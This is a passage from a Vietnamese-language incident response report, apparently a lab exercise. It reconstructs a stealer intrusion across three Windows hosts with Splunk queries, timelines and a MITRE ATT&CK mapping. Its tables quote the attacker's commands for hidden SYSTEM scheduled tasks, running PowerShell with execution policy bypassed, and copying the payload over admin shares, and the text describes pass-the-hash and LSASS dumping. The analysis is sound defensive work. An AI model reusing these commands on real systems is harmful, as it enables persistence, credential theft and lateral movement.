- PAYOPS-WS-04: C:\Windows\Temp\sysinfo_US_10.0.0.1_210420260133
- BCHAIN-WS-11: C:\Windows\Temp\sysinfo_US_10.0.0.1_210420260150

5. Phase E: Exfil dữ liệu (Invoke-Exfiltration) — Nén thư mục staging thành tệp zip rồi gửi qua C2 với IP và port nhận qua tham số (mặc định là 165.245.213.184:8443). Nếu nén lỗi, chỉ gửi tệp systeminfo.txt.

```spl
host="eve.json" event_type=flow dest_ip=165.245.213.184 dest_port=4444
| eval bytes_out='flow.bytes_toserver', bytes_in='flow.bytes_toclient'
| eval KB_out=round(bytes_out/1024,1), MB_out=round(bytes_out/1048576,3)
| table _time flow.start flow.end src_ip src_port dest_ip dest_port app_proto flow.pkts_toserver flow.pkts_toclient bytes_out KB_out MB_out bytes_in flow.age flow.state flow.reason
| sort 0 _time
```


```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:30:00" EventCode=3 process_id=9900
| table _time process_exec process_id DestinationIp DestinationPort RuleName
```


Log suricata ghi nhận một flow TCP từ host 10.10.11.206 (BCHAIN-WS-11) tới 165.245.213.184:4444 trong khoảng 01:51:25-01:52:25 UTC (ngay sau thời điểm stealer được thực thi - 2026-04-21 01:50:43), gửi đi khoảng 25 MB, nhận về 28 KB tương đương vơi 1 gói ACK; giao thức không được nhận dạng (app_proto=failed) do stealer gửi dữ liệu qua TCP thô. Tuy nhiên, trên PAYOPS-WS-04, mặc dù sysmon event 3 ghi nhận stealer kết nối tới C2 lúc 01:33:49 (stealer thực thi vào 2026-04-21 01:33:42), nhưng ta không tìm thấy log suricata tương ứng, nên chưa xác định được lượng dữ liệu bị exfil và chưa xác nhận được dữ liệu đã được exfil thành công hay chưa.

6. Phase F: Cleanup (Invoke-SelfCleanup) — Xóa tệp zip và thư mục staging.

Đoạn code thực thi chính (được đánh dấu bởi comment MAIN): Nếu cờ SkipChecks được bật, bỏ qua phase A và đặt IP/quốc gia mặc định là 10.0.0.1/US, sau đó gọi từng phase một theo thứ tự

### 1.9. Hoạt động của các beacon con (3744, 11772)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" process_id IN (3744, 11772) EventCode=17
| table _time EventDescription process_id process_path PipeName
```


Lần lượt tạo ra 2 pipe postex_e9f2, postex_a43c vào 2026-04-21 01:38:14 và 2026-04-21 01:44:12

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" (postex_e9f2 OR postex_a43c) EventCode=18
| table _time EventDescription Image process_id PipeName
```


Beacon cha rundll32.exe (3904) kết nối tới pipe này ngay sau khi tạo thành công để giao tiếp với beacon con

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" parent_process_id IN (3744, 11772) EventCode=1
| table _time EventDescription process_id process_path CommandLine
```


Chạy lệnh cmd ghi 1 chuỗi ngẫu nhiên vào pipe 6be039, e39a55 do beacon cha rundll32.exe (3904) tạo ra trước đó

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" SourceProcessId IN (3744, 11772) EventCode=10
| table _time EventDescription GrantedAccess SourceProcessId SourceImage TargetProcessId TargetImage RuleName CallTrace
| sort _time
```


- Thực hiện truy cập memory process lsass.exe, nhiều khả năng là đánh cắp credentials rồi gửi dữ liệu qua named pipe vừa tạo cho beacon cha

- Trước đó, ta đã ghi nhận beacon cha rundll32.exe kết nối tới RPC endpoint mapper trên BCHAIN-WS-11 vào 2026-04-21 01:39:04 và 2026-04-21 01:44:43, ngay gần thời điểm quan sát thấy sự kiện dump lsass này cho thấy dấu hiệu credentials đã bị đánh cắp và bị lạm dụng để xác thực và thực thi lệnh từ xa trên host này

```spl
index=main host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" EventCode=7045
| table _time ServiceName ServiceType StartType ImagePath
```


Attacker tạo 2 service chạy 2 binary (cc53f75.exe và 48047da.exe) đặt trong ADMIN$ share

```spl
index=main host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" latest="04/21/2026:01:45:00" EventCode=4648
| table _time IpAddress IpPort ProcessName ProcessId TargetUserName TargetServerName
```

```spl
index=main host="PAYOPS-WS-04" earliest="04/21/2026:01:38:00" latest="04/21/2026:01:45:00" EventCode=4624 Logon_Type=9
| table _time SubjectUserName TargetUserSid TargetOutboundUserName TargetOutboundDomainName Logon_Type TargetLogonId TargetLinkedLogonId status LogonProcessName AuthenticationPackageName ElevatedToken ProcessName process_id
| sort _time
```


Attacker tiếp tục sử dụng kĩ thuật pass-the-hash với credentials chiếm được của user k.mostafa.admin để lateral movement sang BCHAIN-WS-11

## Host 2: COMP-FS-01 (10.10.11.81)

### 2.1. Service 2fdb156.exe (pid = 3872) — khởi chạy lúc 2026-04-21 00:30:45

```spl
index=main host="COMP-FS-01" earliest="04/20/2026:00:30:45" EventCode=4689
| where ProcessId=lower(tostring(3872, "hex"))
| table _time src_user Logon_ID ProcessId process
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:00" latest="04/21/2026:00:31:00"  process_id=3872 OR parent_process_id=3872 OR SourceProcessId=3872 {A55F24E4-C535-69E6-8213-00000000B503}
| stats count by EventCode
```


Process 2fdb156.exe (pid = 3872) kết thúc vào 2026-04-21 00:30:46, gần như ngay sau khi được khởi chạy. 


Thống kê các sysmon event liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:27:00" 2fdb156.exe EventCode=23
| table _time TargetFilename Hashes
```


Vào 2026-04-21 00:30:47, service độc hại 2fdb156.exe bị xóa đi ngay sau khi thực thi nhằm che đậy dấu vết

Hash của 2fdb156.exe:
- SHA1=280C5F60C0162D8630DB3AAD725EEE61585E3732
- MD5=28974F59A4D9EE26DD15DC7E0AEE3F66
- SHA256=3C476AA9146BB159272DF79EBD08EEF8E2BB5F02EC7ADB40B51FB17FEAFC51B8
- IMPHASH=BED5688A4A2B5EA6984115B458755E90

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:00" latest="04/21/2026:00:31:00"  process_id=3872 {A55F24E4-C535-69E6-8213-00000000B503} EventCode IN (17, 18)
| table _time EventCode EventDescription PipeName process_path process_id RuleName
| sort _time
```


Vào 2026-04-21 00:30:45-46, tạo vào kết nối tới pipe MSSE-4594-server

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:00" latest="04/21/2026:00:31:00" parent_process_id=3872 {A55F24E4-C535-69E6-8213-00000000B503} EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id process_guid CommandLine
| sort _time
```


Vào 2026-04-21 00:30:46, spawn ra beacon con rundll32.exe (5600) trước khi kết thúc. Chuỗi hành vi phù hợp với cơ chế của một loader: thực thi trong thời gian ngắn để khởi chạy payload khác, sau đó kết thúc trong khi payload tiếp tục hoạt động bên trong process được tạo.

### 2.2. Process rundll32.exe (pid = 5600) — khởi chạy lúc 2026-04-21 00:30:46

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:46" process_id=5600 OR parent_process_id=5600 OR SourceProcessId=5600 {A55F24E4-C536-69E6-8313-00000000B503}
| stats count by EventCode
```


Thống kê các sysmon event liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:46" process_id=5600 {A55F24E4-C536-69E6-8313-00000000B503}
| bin _time span=5m
| stats count by _time DestinationIp DestinationPort
| sort _time
```


Duy trì beaconing tới C2 100.52.249.75:443, ngoài ra, ghi nhận 1 kết nối tới 92.223.97.79:80

```spl
index=suricata event_type=dns src_ip=10.10.11.81 dns.rrname="ctldl.windowsupdate.com"
| table _time src_ip dns.rrname dns.rdata dns.answers{}.rdata
```

```spl
index=suricata event_type=http src_ip=10.10.11.81 92.223.97.79
| table _time http.http_method http.http_user_agent http.http_content_type http.status http.hostname http.url
```


Kết nối tới 92.223.97.79:80 là hoạt động bình thường của Windows do đây là cơ chế Automatic Root Certificates Update của CryptoAPI, tải Certificate Trust List (authrootstl.cab) từ ctldl.windowsupdate.com. Kết nối này xảy ra khi process (PID 5600) xác thực chuỗi chứng chỉ, nhiều khả năng ngay trước khi thiết lập kết nối HTTPS tới 100.52.249.75:443

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:46" process_id=5600 {A55F24E4-C536-69E6-8313-00000000B503} EventCode=11
| table _time TargetFilename
```


Drop payload cptchbuild.bin vào thư mục C:\ProgramData\. Trước đó, một tệp với cùng tên cũng đã được tạo trên host PAYOPS-WS-04 và được đổi tên thành svc_update.exe trước khi thực thi. Sự lặp lại về tên tệp và trình tự triển khai cho thấy attacker có thể đang sử dụng cùng một payload hoặc quy trình triển khai malware trên nhiều host.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:30:46" parent_process_id=5600 {A55F24E4-C536-69E6-8313-00000000B503} EventCode=1
| table _time user CommandLine
| sort _time
```


#### Các lệnh được thực thi bởi beacon con

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 00:33:04 | `C:\Windows\system32\cmd.exe /C hostname` | Kiểm tra tên máy |
| 2026-04-21 00:33:19 | `C:\Windows\system32\cmd.exe /C mkdir C:\ProgramData\` | Tạo thư mục ProgramData trong ổ C. Thư mục này thường đã tồn tại trên Windows, nên lệnh này có thể trả về lỗi "already exists", attacker có thể chỉ đang kiểm tra thư mục có tồn tại không trước khi drop payload |

Trong khoảng 2026-04-21 00:33:19 đến 2026-04-21 00:50:00, quá trình điều tra trước đó cho biết attacker chạy stealer trên PAYOPS-WS-04, lateral movement sang BCHAIN-WS-11 chạy stealer, rồi mới tiếp tục hoạt động trên COMP-FS-01:

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 00:50:00 | `C:\Windows\system32\cmd.exe /C rename C:\ProgramData\cptchbuild.bin svc_update.exe` | Rename payload (cptchbuild.bin) vừa drop thành svc_update.exe mạo danh 1 binary cập nhật hợp lệ |
| 2026-04-21 00:50:20 | `C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "C:\ProgramData\svc_update.exe" /sc daily /st 09:00 /ru SYSTEM /f` | Tạo task chạy svc_update.exe hàng ngày vào 9h sáng dưới danh tính SYSTEM, task được đặt tên "DataSync Update" nhằm giả mạo một task cập nhật hợp tạo bởi service DataSync |

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="COMP-FS-01" earliest="04/21/2026:00:50:00" svc_update.exe EventCode=1
| table _time CommandLine
| sort _time
```


Chưa ghi nhận task được khởi chạy và stealer thực thi

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 00:50:46 | `C:\Windows\system32\cmd.exe /C copy C:\ProgramData\svc_update.exe \\PAYOPS-WS-04\C$\ProgramData\svc_update.exe` | Copy payload svc_update.exe sang PAYOPS-WS-04 qua admin share C$ |

```spl
index=main source="xmlwineventlog:microsoft-windows-sysmon/operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:50:00" latest="04/21/2026:00:55:00" EventCode=11
| table _time TargetFilename
```


Tuy nhiên, chưa ghi nhận svc_update.exe được copy thành công sang PAYOPS-WS-04 từ COMP-FS-01, có thể đây là lí do mà beacon rundll32.exe (pid = 3904) trên PAYOPS-WS-04 drop cptchbuild.bin vào 2026-04-21 00:52:31

## Host 3: BCHAIN-WS-11 (10.10.11.206)

### 3.1. Services cc53f75.exe và 48047da.exe

```spl
index=main source="xmlwineventlog:microsoft-windows-sysmon/operational" host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" latest="04/21/2026:01:45:00" EventCode=1 (cc53f75.exe OR 48047da.exe)
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```


Spawn ra 2 beacon con ngay sau khi khởi chạy: rundll32.exe (7828) và rundll32.exe (2436)

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" process_id IN (6120, 10284) EventCode IN (17, 18)
| table _time EventCode EventDescription PipeName process_path process_id RuleName
| sort _time
```


Tạo và kết nối tới pipe MSSE-7473-server và MSSE-9487-server

### 3.2. Các beacon con rundll32.exe (7828, 2436)

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" (parent_process_id IN (7828, 2436) OR process_id IN (7828, 2436) OR SourceProcessId IN (7828, 2436))
| stats count by EventCode source
```

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" process_id IN (7828, 2436) EventCode=11
| table _time Image ProcessId TargetFilename
```


Vào 2026-04-21 01:49:23, beacon rundll32.exe (2436) drop stealer C:\ProgramData\vodkastealer_emulator.ps1

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" process_id IN (7828, 2436) EventCode=3
| stats count by process_exec ProcessId DestinationIp DestinationPort
```


Duy trì beaconing tới c2 ip 100.52.249.75:443. Việc nhiều process đáng ngờ trên các host khác nhau kết nối tới cùng một external IP củng cố giả thuyết rằng attacker đang điều khiển các compromised endpoint thông qua một hạ tầng C2 chung.

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="BCHAIN-WS-11" earliest="04/21/2026:01:39:00" parent_process_id IN (7828, 2436) EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```


#### Các lệnh được thực thi bởi beacon con

Beacon rundll32.exe (2436) spawn chạy các lệnh (tất cả chạy dưới danh tính SYSTEM):

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 01:47:45 | `C:\Windows\system32\cmd.exe /C whoami` | Kiểm tra danh tính user hiện tại |
| 2026-04-21 01:49:50 | `C:\Windows\system32\cmd.exe /C rename vodkastealer_emulator.ps1 svc_update.ps1` | Đổi tên script nhằm ngụy trang |
| 2026-04-21 01:50:18 | `C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "powershell.exe -nop -w hidden -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks" /sc daily /st 09:00 /ru SYSTEM /f` | Tạo task tên DataSync Update chạy script mỗi 9h sang dưới danh tính SYSTEM |
| 2026-04-21 01:50:43 | `C:\Windows\system32\cmd.exe /C powershell -nop -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks -Verbose` | Chạy stealer qua powershell |

# Mitre att&ck
| Tactic | Technique | Bằng chứng |
|---|---|---|
| Execution | T1204.004 – User Execution: Malicious Copy and Paste | ClickFix |
| Execution | T1059.001 – Command and Scripting Interpreter: PowerShell | Chạy lệnh powershell tải và thực thi http://3.122.229.6/payload.ps1. Sau đó attacker tiếp tục sử dụng powershell để thực thi reverse shell và VodkaStealer |
| Execution | T1059.003 – Command and Scripting Interpreter: Windows Command Shell | Các process PowerShell và rundll32.exe liên tục khởi chạy cmd.exe /C để thực thi những lệnh như whoami, systeminfo, net, wmic, sc và schtasks |
| Command and Control | T1105 – Ingress Tool Transfer | Tải thêm payload bao gồm Service.exe, cptchbuild.bin và vodkastealer_emulator.ps1  |
| Command and Control | T1071.001 – Application Layer Protocol: Web Protocols | Liên tục kết nối tới 100.52.249.75:443 (HTTPS) |
| Command and Control | T1571 – Non-Standard Port | Reverse TCP shell kết nối tới 165.245.213.184:4444 |
| Discovery | T1033 – System Owner/User Discovery | Attacker thực thi lệnh whoami và whoami /all trên PAYOPS-WS-04, COMP-FS-01 và BCHAIN-WS-11 để xác định tài khoản, group và privileges |
| Discovery | T1082 – System Information Discovery | Attacker thực thi systeminfo trên PAYOPS-WS-04 lúc 2026-04-20 23:31:41 nhằm thu thập thông tin cấu hình hệ thống |
| Discovery | T1016 – System Network Configuration Discovery | Lệnh ipconfig /all được thực thi trên PAYOPS-WS-04 lúc 2026-04-20 23:31:55 để thu thập thông tin cấu hình mạng |
| Discovery | T1087.002 – Account Discovery: Domain Account | Attacker sử dụng net user /domain để liệt kê các tài khoản thuộc domain NEXTGEN |
| Discovery | T1069.002 – Permission Groups Discovery: Domain Groups | Attacker thực thi net group "Domain Admins" /domain và net group "Domain Computers" /domain để liệt kê thành viên các nhóm trong domain |
| Discovery | T1007 – System Service Discovery | Attacker thực thi wmic service get name,pathname,startmode \| findstr /i "DataSync" để xác định cấu hình service DataSyncPro trước khi khai thác Unquoted Service Path |
| Discovery | T1018 – Remote System Discovery | Attacker thực thi net view /domain:NEXTGEN, nltest /dclist:NEXTGEN và ping -n 1 BCHAIN-WS-11 nhằm tìm kiếm và kiểm tra khả năng tiếp cận các host nội bộ |
| Discovery | T1057 – Process Discovery | Attacker sử dụng tasklist \| findstr svc_update để kiểm tra liệu payload svc_update.exe đã được khởi chạy hay chưa |
| Execution / Stealth | T1574.009 – Hijack Execution Flow: Path Interception by Unquoted Path | Attacker khai thác lỗ hổng unquoted service path của service DataSyncPro  |
| Execution | T1569.002 – System Services: Service Execution | Attacker khai thác DataSyncPro để thực thi payload. Ngoài ra, trên COMP-FS-01 và BCHAIN-WS-11, event id 7045 cùng các event process creation ghi nhận việc tạo và thực thi các service độc hại |
| Stealth / Privilege Escalation | T1055 – Process Injection | Trên PAYOPS-WS-04, Sysmon event id 8 và 10 ghi nhận rundll32.exe (5328) truy cập lsass.exe với quyền cao và tạo remote thread trong process này, phù hợp với hành vi process injection |
| Credential Access | T1003.001 – OS Credential Dumping: LSASS Memory | Các process rundll32.exe (5328, 6008, 9472, 7004) truy cập bộ nhớ lsass.exe với các access mask 0x1010 |
| Lateral Movement | T1078.002 – Valid Accounts: Domain Accounts | Event ID 4624 Logon Type 3 trên COMP-FS-01 ghi nhận xác thực NTLM thành công từ PAYOPS-WS-04 bằng tài khoản k.mostafa.admin. Sau đó ghi nhận hoạt động remote service execution. |
| Lateral Movement | T1550.002 – Use Alternate Authentication Material: Pass the Hash | Attacker dùng Pass-the-Hash để xác thực và tạo service độc hại trên các host |
| Lateral Movement | T1021.002 – Remote Services: SMB/Windows Admin Shares | Các service độc hại được đặt vào ADMIN\$ share |
| Persistence / Privilege Escalation | T1543.003 – Create or Modify System Process: Windows Service | Attacker cài đặt service độc hại trên COMP-FS-01 và BCHAIN-WS-11 |
| Execution / Persistence / Privilege Escalation | T1053.005 – Scheduled Task/Job: Scheduled Task | Attacker sử dụng schtasks /create để tạo task NextGen\DataSync Update, thực thi svc_update.exe hoặc script svc_update.ps1 vào 09:00 hằng ngày dưới danh tính SYSTEM |
| Stealth | T1036.004 – Masquerading: Masquerade Task or Service | Attacker đặt tên scheduled task là NextGen\DataSync Update, nhằm khiến task độc hại trông giống hoạt động cập nhật hợp lệ |
| Stealth | T1036.005 – Masquerading: Match Legitimate Resource Name or Location | Payload cptchbuild.bin được đổi tên thành svc_update.exe; vodkastealer_emulator.ps1 được đổi tên thành svc_update.ps1, nhằm giả mạo thành trình cập nhật hợp lệ |
| Discovery | T1614.001 – System Location Discovery: System Language Discovery | Hàm Invoke-PreFlightChecks của VodkaStealer kiểm tra keyboard layout liên quan đến Nga/Belarus |
| Credential Access | T1555.003 – Credentials from Password Stores: Credentials from Web Browsers | Nội dung hàm Invoke-DataCollection cho thấy VodkaStealer nhắm tới dữ liệu trình duyệt, bao gồm các tệp cơ sở dữ liệu có thể chứa credentials, ví dụ: tệp "Login Data" |
| Collection | T1113 – Screen Capture | PowerShell Event ID 4104 cho thấy VodkaStealer có chức năng thu thập screenshot và lưu kết quả dưới tên screenshot.png. Đây là khả năng xác định từ mã script; cần file artefact để xác nhận screenshot thực sự được tạo. |
| Collection | T1005 – Data from Local System | Hàm Invoke-DataCollection được thiết kế để thu thập system information, installed software, dữ liệu trình duyệt và các tệp liên quan đến ví tiền điện tử từ máy bị nhiễm. Sysmon Event ID 11 ghi nhận các artefact được tạo trong staging directory. |
| Collection | T1074.001 – Data Staged: Local Data Staging | VodkaStealer tạo các thư mục staging dạng C:\Windows\Temp\sysinfo_* để gom dữ liệu thu thập trước khi exfil |
| Collection | T1560 – Archive Collected Data | Hàm Invoke-Exfiltration của VodkaStealer nén staging directory thành tệp zip trước khi gửi ra ngoài |
| Exfiltration | T1041 – Exfiltration Over C2 Channel | Exfil dữ liệu tới 165.245.213.184:4444. Địa chỉ và port này cũng được sử dụng cho reverse TCP shell |
| Stealth | T1070.004 – Indicator Removal: File Deletion | Sysmon event id 23 trên COMP-FS-01 ghi nhận 2fdb156.exe bị xóa ngay sau khi thực thi. Ngoài ra, hàm Invoke-SelfCleanup trong VodkaStealer có thực hiện xóa zip và staging directory sau khi gửi dữ liệu. |